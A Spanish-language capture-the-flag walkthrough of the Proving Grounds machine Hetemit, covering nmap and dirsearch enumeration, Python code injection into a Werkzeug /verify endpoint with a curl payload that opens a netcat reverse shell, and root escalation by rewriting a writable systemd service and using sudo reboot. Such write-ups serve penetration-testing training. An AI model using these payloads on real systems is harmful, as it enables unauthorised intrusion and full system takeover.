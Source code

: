 ```yaml
---
layout: post
title: Hetemit (Linux - Intermediate) - Proving Grounds Practice
date: 12.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, Privilege Escalation, SUDOERS, SUDO, Dirsearch, Curl, Python, Flask, Werkzeug, Werkzeug httpd 1.0.1 (Python 3.6.8), Werkzeug httpd 1.0.1, Fuzzing, SystemD, systemd, /etc/systemd/system/pythonapp.service, File Permissions, Reboot, /sbin/reboot, Intermediate]
image:
  path: assets/img/post-img/PGimage-Title/PG-Title.svg
  alt: 
---
```


# Resolución paso a paso de la máquina Hetemit:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.103.117 -oG allPorts
```

![image.png](assets/img/post-img/Hetemit/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p21,22,80,139,445,18000,50000 --min-rate 5000 192.168.103.117 -oN targeted
```

![image.png](assets/img/post-img/Hetemit/image%201.png)

![image.png](assets/img/post-img/Hetemit/image%202.png)

- Vemos que hay tres servidores **WEB** diferentes además de otros servicios como **FTP**, **SSH**, **SMB**… Después de un buen rato de enumeración realizando **FUZZING** en contra los tres servidores (**80**, **18000** y **5000**) descubrimos poca cosa..

- Una de las cosas que descubrimos es un panel de **LOGIN** que no nos devuelve ningún mensaje de **ERROR** cuando ponemos una credenciales invalidas, eso nos dificultaría mucho realizar **FUERZA BRUTA** ya que no podemos saber cuando hemos acertado con las credenciales y cuando no. Además también hay un **PANEL DE REGISTRO** pero no podemos registrarnos como nuevos usuarios ya que nos pide un **CÓDIGO DE INVITACIÓN** que no tenemos. También parece que si pudiéramos registrarnos podríamos aprovecharnos del campo de subida de archivos para intentar colar una **WEBSHELL** o una **REVERSE SHELL**, no obstante descartamos esta opción por ahora.

![image.png](assets/img/post-img/Hetemit/image%203.png)

![image.png](assets/img/post-img/Hetemit/image%204.png)

### DIRSEARCH

- Continuamos enumerando  y analizando el puerto **50000** vemos que corre un **SERVIDOR WEB** con PYTHON (**Werkzeug httpd 1.0.1 (Python 3.6.8)**). Realizando **FUZZING** con **DIRSEARCH** vemos que hay un directorio **VERIFY y un directorio GENERATE** que es lo mismo que encontramos cuando accedemos a la página principal por el puerto **50000:**

```bash
dirsearch  -u http://192.168.103.117:50000 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x 403,400,404
```

![image.png](assets/img/post-img/Hetemit/image%205.png)

![image.png](assets/img/post-img/Hetemit/image%206.png)

![image.png](assets/img/post-img/Hetemit/image%207.png)

![image.png](assets/img/post-img/Hetemit/image%208.png)

## EXPLOTACIÓN

### Werkzeug httpd 1.0.1 (Python 3.6.8)

- Sabiendo que el servidor corre **PYTHON** la primera opción fue intentar lanzar alguna **REVERSE SHELL** directamente desde **CURL** pero no hubo manera. Sabemos que el formato en el que nos muestra la información es **JSON** o se parece mucho, incluso podemos pensar que estamos interactuando con alguna **API**. Al final realizamos una petición por **POST** con **CURL** pasándole con el parámetro **--DATA** la información, en este caso **CODE** nos hace pensar que está ejecutando código por detrás y debe ser con **PYTHON**, así que intentamos hacer una ejecución a nivel de sistema con **OS.SYSTEM** y lanzarnos la **SHELL**, y parece que funcionó:

```bash
curl -i http://192.168.243.117:50000/verify -X POST --data 'code=os.system("nc 192.168.45.154 18000 -e /bin/bash")'
```

![image.png](assets/img/post-img/Hetemit/image%209.png)

- Nos ponemos en escucha con **NC** por el puerto **18000**:

```bash
nc -lvnp 18000
```

![image.png](assets/img/post-img/Hetemit/image%2010.png)

## TRATAMIENTO DE LA TTY

- Realizamos el tratamiento de la **TTY** para poder trabajar más cómodos desde una **SHELL INTERACTIVA**:

```bash
script /dev/null -c bash

control+z

stty raw -echo; fg

reset xterm

export TERM=xterm-256color

export SHELL=bash

stty rows 52 columns 214 
```

- Una vez dentro de la máquina podemos acceder al directorio personal del usuario **CMEEKS** y leer la primera **FLAG**:

![image.png](assets/img/post-img/Hetemit/image%2011.png)

## ESCALADA DE PRIVILEGIOS

### SYSTEMD + SUDO REBOOT

- En este caso descubrimos que teníamos permisos en “**/etc/systemd/system/pythonapp.service**”.

![image.png](assets/img/post-img/Hetemit/image%2012.png)

> **SYSTEMD** es un sistema de **INICIALIZACIÓN** de **LINUX**. Es el proceso que se ejecuta con el **PID** número **1**, por lo que se arranca automáticamente cada vez que se arranque el sistema.
> 

- Al acceder al directorio y analizar el archivo descubrimos que como **GRUPO** estaba el usuario bajo el que estábamos corriendo, por lo que tenemos derechos de **ESCRITURA** sobre ese archivo. Al acceder al contenido vemos que en la variable **ExecStart**  ejecuta **FLASK** y podemos ver también en la variable **USER** que lo ejecuta bajo el usuario en el que estamos.

```bash
/etc/systemd/system/pythonapp.service
```

![image.png](assets/img/post-img/Hetemit/image%2013.png)

> Hay que tener en cuenta que para  que este método sea efectivo debemos poder reiniciar la máquina con **REBOOT**. En este caso, el usuario bajo el que nos encontramos puede ejecutar con permisos de **SUDO** el **“/SBIN/REBOOT”**.
> 

```bash
sudo -l
```

![image.png](assets/img/post-img/Hetemit/image%2014.png)

- Como tenemos privilegios de escritura sobre este archivo y sabemos que si reiniciamos la máquina con **REBOOT** se ejecutará, vamos a modificar el **SCRIPT** para que en lugar de **FLASK** nos lance una **REVERSE SHELL** y en lugar de hacerlo bajo nuestro usuario lo haga directamente como el usuario **ROOT**:
- Modificamos el **SCRIPT** para que nos lance la **REVERSE SHELL** bajo el usuario **ROOT** y modificamos también el tiempo para que sea un poco más de **15 segundos**, en este caso puse **60 segundos**:

![image.png](assets/img/post-img/Hetemit/image%2015.png)

- Reiniciamos el sistema como **SUDO** y nos ponemos en escucha con **NC** en nuestra máquina atacante por el puerto **50000**:

```bash
# Reiniciamos la máquina víctima mientras estamos en escucha con NC en nuestra máquina atacante:
sudo reboot
```

```bash
nc -lvnp 50000
```

![image.png](assets/img/post-img/Hetemit/image%2016.png)

![image.png](assets/img/post-img/Hetemit/image%2017.png)